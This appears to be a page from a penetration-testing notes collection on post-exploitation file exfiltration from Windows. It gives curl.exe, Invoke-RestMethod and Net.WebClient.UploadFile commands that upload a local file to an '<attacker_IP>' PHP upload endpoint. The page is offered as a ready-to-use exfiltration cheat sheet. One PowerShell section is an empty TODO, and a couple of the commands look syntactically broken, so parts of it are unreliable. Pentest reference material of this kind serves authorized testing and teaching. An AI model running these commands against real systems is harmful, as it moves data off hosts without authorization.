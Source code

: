```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - file-transfer-and-data-exfiltration
  - living-off-the-land
  - windows
---
```

# Upload

After you've setup a [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Linux/Network Ports/HTTP/Server#^2d615d|PHP web server]] to exfiltrate files.

## 01 - Command Prompt

```
C:\> curl.exe -F fileToUpload=@file.txt http[s]://<attacker_IP>/upload.php

C:\> curl.exe -T fileToUpload=@file.txt http[s]://<attacker_IP>/upload.php
```

## 02 - PowerShell

TODO: Fill this info

### 2.1 - `Invoke-WebRequest`

```
PS C:\> 
```

### 2.2 - `Invoke-RestMethod`

```
PS C:\> $body = Get-Content file.txt
Invoke-RestMethod -Uri http[s]://<attacker_IP>[:<PORT>] -Method PUT -Body $body
```

### 2.3 - `UploadFile`

```
PS C:\> New-Object Net.WebClient.UploadFile('http[s]://<attacker_IP>[:<PORT>]/upload.php', 'file.txt')
```